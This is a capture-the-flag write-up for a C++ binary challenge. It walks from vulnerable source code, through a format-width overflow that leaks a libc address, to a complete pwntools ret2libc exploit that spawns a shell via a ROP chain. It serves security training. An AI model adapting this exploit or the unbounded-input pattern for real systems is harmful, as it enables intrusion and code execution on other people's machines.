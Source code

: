 The round 2 challenge was named plusplus and was a C++ challenge. The source was provided this time and the description read "_Everything is better in C++_"

### Code Analysis
Here's the provided source
```C++
// g++ -o plusplus plusplus.cxx -w -std=c++23 -lfmt -fno-stack-protector -fPIE

#define NDEBUG

#include <iostream>
#include <string.h>
#include <unistd.h>
#include <fmt/core.h>

#define MAX_BUF_SIZE 0x100
#define MAX_PRINT_SZ 0x50

__attribute__((constructor))
void __constructor__(){
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int safe_str_input(char *buffer, int size) {
    int sz = -1;
    while(buffer[sz] != '\n') { buffer[++sz] = getchar(); }
    buffer[sz] = 0;
    return sz;
}

int main() {
    // Run me once, shame on you. Run me twice, shame on me.
    char buf[MAX_BUF_SIZE];
    char buf_2[MAX_BUF_SIZE];
    snprintf(buf_2, MAX_BUF_SIZE, "%p", &setvbuf); // help-help-help
    char output[MAX_BUF_SIZE];

    memset(output, 0, MAX_BUF_SIZE);
    for(int i = 0; i < 2; ++i) {

        for(int j=0;j<=i;++j) std::cout << "+";
        std::cout << " ";
        if(safe_str_input(buf, MAX_BUF_SIZE) < 0) break;
        if(i) break;
        size_t sz = strlen(buf);
        if(sz <= 1) continue;
        buf[(sz >= MAX_BUF_SIZE) ? MAX_BUF_SIZE-1 : strcspn(buf, "\n")] = 0;
        fmt::format_to(output, fmt::runtime(buf), MAX_PRINT_SZ);
        std::cout << std::string(output) << std::endl;
    }

    return 0;
}
```

Looking at the code, we see that the program is running two nested loops. The outer loop runs twice and the inner loop runs equal to the outer-loop's counter times. It also places the address of `setvbuf` function in the buffer `buf_2`

In the first run of the outer loop, the inner loop will call the function `safe_str_input` on buffer `buf` with size `MAX_BUF_SIZE` (0x100) and then it will call `fmt::format_to`, our provided input as the `format` argument and the output being stored in `output` buffer and the output was printed on stdout. 
In second run of the outer loop, the inner loop will only call `safe_str_input` and terminate both the inner and outer loop and return from main.

Looking closely at the `safe_str_input` function, we observe that it will keep on reading characters from stdin and writing them into the provided buffer until it receives a newline. It doesn't perform any bounds check for the buffer. It shows behavior similar to the infamous `gets` function. The difference being that `gets` replaces the newline with a null byte but it adds a null-byte after the newline (which will then be replaced by a null byte in main function). Hence a buffer overflow can be caused.

Looking at the protections enabled (can be inferred from the compiler arguments given in the top comment), we find that PIE, Full RELRO and NX are enabled but canary is disabled.
This confirmed that buffer overflow was imminent.

### Exploitation
After finding the format string and buffer overflow vulnerabilities, I was looking for a leak to do a `ret2libc` attack. I thought we could leak the stack contents like we do in C `printf` format string attacks. I pulled up the C++ does for the `fmt::format_to` function and was reading the format string syntax. It uses a syntax similar to Python's `str.format` function.
I tried giving indices to read arguments beyond the provided one (still under the impression that it was similar to `printf` format string).

After attempting multiple indices and types (you can specify the type being printed in the format), the program wasn't letting me print any argument other than the first argument and that only in integer format. The issue was that C++ does runtime checks for verifying argument's indices and types with the ones that we provided during compilation, unlike `printf` that has no runtime checks because it has no runtime type information.

At this point the first hint was released, that read "_The format documentation is quite extensive. You just need to look into expansions_". Expansions are same as those of `printf`. We specify a width of the argument being printed and the value is padding with space (default) or the specified character from the left (default) or the right to make the string have the specified width.
Example expansions:
`printf`: `%<offset>$<width><specifier>`, `%2$20d`, `%20d`, `%-20s`
`fmt`: `{<offset>:<width><specifier>}`, `{2:20d}`, `{:20d}`, `{:-20s}`

With this in mind, I experimented with a few different widths and found out that there were no bound checks on the `output` buffer, so we can overflow `output` and `fmt` wasn't performing any string termination either. Looking at the stack in `gdb`, you get the following layout:
```
[output buffer]
[buf_2 buffer]
[buf buffer]
[saved rbp]
[return address]
```
This reminded me that there is a libc leak present in `buf_2`, I overflowed `output` with `{:256}` and got the following output:
```
+ {:256}
                                                                                                                                                                                                                                                              800x78ea92c88540
++
```
The address at the end is `setvbuf`. Now we have libc base and just need to perform buffer overflow in `buf` buffer, thanks to buffer overflow in `safe_str_input` function.
I did a simple `ret2libc` attack to execute `system` function

### Final Exploit
```python
#!/usr/bin/env python3
from pwn import *

def start() -> tube:
    if args.REMOTE:
        return remote("challs.airoverflow.com", 32297)
    else:
        return elf.process()
    
def attach_gdb() -> None:
    if args.REMOTE or args.NOGDB:
        return
    
    gdb.attach(p, '''
    b *main +730
    continue
               ''')
    input("ATTACHED?")

context.binary = elf = ELF("./plusplus_patched")
libc = elf.libc

POP_RDI = 0x000000000010f75b
RET = POP_RDI + 1
BIN_SH = 0x1cb42f

p = start()

p.sendlineafter("+ ", "{:256}")
libc_leak = int(p.recvline().strip()[2:], 0x10)

libc.address = libc_leak - libc.sym.setvbuf

print(hex(libc.address))

rop = [
    libc.address + POP_RDI, libc.address + BIN_SH,
    libc.address + RET,
    libc.sym.system
]

attach_gdb()

p.sendlineafter("++ ", b'A'*440 + b''.join([p64(x) for x in rop]))

p.interactive()
p.close()
```

### Comments
I really liked the idea of the challenge to show that format string are not limited to C's `printf` and can be helpful even with strict type-checking.